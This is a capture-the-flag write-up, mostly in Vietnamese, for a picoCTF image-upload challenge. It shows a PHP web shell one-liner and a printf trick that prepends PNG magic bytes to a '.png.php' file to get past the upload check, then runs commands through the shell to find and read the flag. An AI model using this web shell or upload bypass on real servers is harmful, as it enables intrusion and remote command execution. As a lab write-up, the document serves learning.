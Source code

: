 ![image](https://github.com/user-attachments/assets/7271d8a4-2a6f-4937-ae93-4e9b9d9c8880)

I found a web app that can help process images: PNG images only!

# TLDR
Web này check file được đưa vào, chỉ cần có `.png` và có file signature của png thì được chấp nhận

Tạo một file PHP để tạo 1 shell và thực hiện trên web, cho file đó signature của PNG với đuôi là `.png.php` sau đó tìm file `.txt` trên server 

Tên file flag được decode = base32

# Upload thử các loại file 
Nếu upload 1 file PNG bình thường sẽ báo thành công

![image](https://github.com/user-attachments/assets/a96fc19c-af2d-4a2d-a090-d2c7d971421c)

Tất nhiên là đợi bao lâu sẽ không được gì từ đó ta có hướng giải là tạo một file PHP tạo 1 shell sau đó sẽ dùng nó để đọc file flag

Để tạo một shell = PHP trên web ta dùng `<?php system($_GET['cmd']); ?>`

Thử upload một file và chỉ thêm đuôi png

![image](https://github.com/user-attachments/assets/13db7e7d-a854-448b-a209-6b88fbaf3cf8)

Web báo lỗi đây không phải file PNG hợp lệ dù cho ta đã dùng đuôi `.png` và sau đó có mã: `3c3f7068`

Nếu xem hexdump của normalPHP.png ta biết rằng đây là "magic number" của file này. Vậy là server kiểm tra xem 1 file có đuôi `.png` không và có file signature của `.png` không

![image](https://github.com/user-attachments/assets/9205b6c0-df8e-40cc-91e6-ef445926953f)

# Đưa code PHP vào file PNG
Để biến một file bình thường thành PNG ta có thể dùng `printf "\x89\x50\x4E\x47\x0D\x0A\x1A\x0A" > betterPHP.png.php` để tạo một file mới mang signature của PNG
![image](https://github.com/user-attachments/assets/de862741-e002-4568-8c14-a3fbadd41bd2)

Sau đó đưa dữ liệu từ normalPHP.png vào, dùng `>>` để thêm dữ liệu vào file, nếu chỉ dùng `>` sẽ ghi đè lên dữ liệu cũ và làm mất file signature của PNG

![image](https://github.com/user-attachments/assets/39db3730-d172-4f02-8882-6f1cee45d62d)

# Upload file "betterPHP.png.php" đã được nguỵ trang
![image](https://github.com/user-attachments/assets/5f623c61-5cde-484a-a9d8-c1f464982f25)

Thành công, giờ ta có thể truy cập và thực hiện lệnh bằng link `http://atlas.picoctf.net:58019/uploads/betterPHP.png.php?cmd=NHẬP LỆNH VÀO`

![image](https://github.com/user-attachments/assets/3ac19f78-d11a-4330-bd9f-98947a698d60)

User tên là www-data 

# Tìm flag
Để tìm flag ta dùng câu lệnh find mọi file `.txt` trong web

![image](https://github.com/user-attachments/assets/50de2b56-d7fa-40e2-be32-4cb13d9f3256)

Tên file toàn chữ hoa `MFRDAZLDMUYDG.txt` kia đã được mã hoá = base32, nếu decode sẽ cho ra `flag.txt `

Chỉ cần đọc file sẽ thấy flag

![image](https://github.com/user-attachments/assets/c24a45b3-50c2-47e5-a599-a0f04a0ce97a)

# FLAG: picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03}
